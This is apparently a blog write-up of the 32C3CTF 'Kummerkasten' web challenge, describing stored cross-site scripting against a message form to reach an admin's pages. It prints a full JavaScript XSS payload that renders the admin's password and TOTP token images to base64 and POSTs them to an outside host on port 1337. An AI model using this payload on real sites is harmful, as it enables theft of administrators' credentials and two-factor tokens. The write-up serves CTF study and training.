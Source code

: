 ```yaml
---
title: "32C3CTF - Kummerkasten (Web 300)"
header:
  image: /assets/images/32c3/kummerkasten/header.png
tags:
  - 32c3
  - writeup
  - web
  - xss
---
```


Steal the password and TOTP token from an admin using cross-site scripting.

## Challenge Description

#### Points

300

#### Description

```
Our Admin is a little sad this time of the year. Maybe you can cheer him up at
this site

Please note: This challenge does not follow the flag format.
```

## Solution

When navigating to the website, we are shown a message about the depressed admin
and a form to send him messages. Turns out, the website is vulnerable to
cross-site scripting so let's try and get a view at what the admin is looking at
when he views our comment.

![1]({{ site.url }}{{ site.baseurl }}/assets/images/32c3/kummerkasten/1.png){: .align-center}

In the response, we get some interesting HTML back:

```html
        <div id="navbar" class="collapse navbar-collapse">
          <ul class="nav navbar-nav">
            <li class="active comments comment"><a href="/admin/comments">Comments</a></li>
            <li class="bugs"><a href="/admin/bugs">Bugs</a></li>
          </ul>
          <img src="img/spinner.svg" class="spinner pull-right" style="height: 50px; display: none;">
    <ul class="nav navbar-nav navbar-right">
      <li class="token"><a href="/admin/token">HACK - Token</a></li>
    </ul>
```

Now, if let's try to get `/admin/bugs`:

![2]({{ site.url }}{{ site.baseurl }}/assets/images/32c3/kummerkasten/2.png){: .align-center}

We get the following response:

```html
        <h1>Bug reports</h1>
        <div class="bug">
        <p><h4>New bug report from Zero Cool on 2015-12-28</h4></p>
                <p>Hello Admin,...
        I know that you're not in a good place right now. I've been
        told to go easy on you. But guess what I just found browsing
        through the latest commits to our PUBLIC (!!!!) GitHub
        repository.
        </p>
        <img src="admin/img/root_pw.png?20151228" id="img-bug-0003"/>
        <p>
        Is this really our production MySQL password? And is this by any chance
        the exact same password you're using everywhere else?  <br/>
        <b>Are you fucking kidding me?</b><br/>
        Please tell me that this is not also your password for the admin section...<br/>
        The only thing that luckily prevents anyone from exploiting this is
        that we enforce Two Factor Authentication. Even an imbecile
        like you can't fuck this up since it's only stored on your phone...<br/>
        Sorry admin, but this is unacceptable. I've deleted the checkin from
        the repo and I don't think anyone saw the commit...</p>
        <footer>Zero Cool on 2015-12-28</footer>
        </div>
        <hr/>
        <div class="bug">
        <p><h4>New bug report from Acid Burn on 2015-12-20</h4></p>
            <blockquote>
                <p>Hello Admin,
        Sorry for filing a bug, but I thought this was the quickest way to
        reach you. I've found the library you were looking for, it's called
        pyotp. You haven't told me what you're planning on doing with it, but
        knowing you it will be something really cool. I've found that the
        easiest way to use the token is to just append it to your password
        (i.e. as the last six digits).</p>

        <p>I probably don't have to tell you to keep your TOTP token
        (and especially the seed) safe from prying eyes ;)</p>
                <footer>Acid Burn on 2015-12-20</footer>
            </blockquote>
        </div>
      </div>
      </div>
```

Before we continue, let's repeat the process for /admin/token . We get the
following response:

```html
        <h1>TOTP Token for today</h1>
        <p>
        The token for today is:<br/>
        <img src="admin/img/token.png?20151228" id="img-token"/>
        </p>
        </div>
```

Let's summarise what we have found so far:

1. Dade (Zero Cool) sends a message to the admin about his insecure password and
   his including the password in a commit. He includes an image of the commit which
   should include the password.
2. Kate (Acid Burn) sends a message saying that the easiest way to use the two
   factor token is to append the token to the password.
3. We have obtained a link an image of the token.

What we have to do is get those two images, concatenate the token to the
password and we have our flag. Here is the payload we used to get the images
(canvas code from this [stackoverflow
thread](http://stackoverflow.com/questions/6150289/how-to-convert-image-into-base64-string-using-javascript)):

```javascript
<script>
function ib64(url, predata, callback, outputFormat){
    var img = new Image();
    img.crossOrigin = 'Anonymous';
    img.onload = function(){
        var canvas = document.createElement('CANVAS');
        var ctx = canvas.getContext('2d');
        var dataURL;
        canvas.height = this.height;
        canvas.width = this.width;
        ctx.drawImage(this, 0, 0);
        dataURL = canvas.toDataURL(outputFormat);
        callback(predata + dataURL);
        canvas = null;
    };
    img.src = url;
}

var upass = 'admin/img/root_pw.png?20151228';
var utoken = 'admin/img/token.png?20151228';
ib64(upass, '', function(passimg){
  ib64(utoken, passimg + ':', function(totalimg){
    $.ajax({
      type: "POST",
      url: "http://codesinverse.com:1337/pwn",
      data: totalimg
    });
  });
});
</script>
```

After decoding the base64, we get the two images. The password image:

![3]({{ site.url }}{{ site.baseurl }}/assets/images/32c3/kummerkasten/3.png){: .align-center}

The token image:

![4]({{ site.url }}{{ site.baseurl }}/assets/images/32c3/kummerkasten/4.png){: .align-center}

Combining the two we get 1\_4m\_numb3r\_0n3!629880.

Flag: **1\_4m\_numb3r\_0n3!629880**



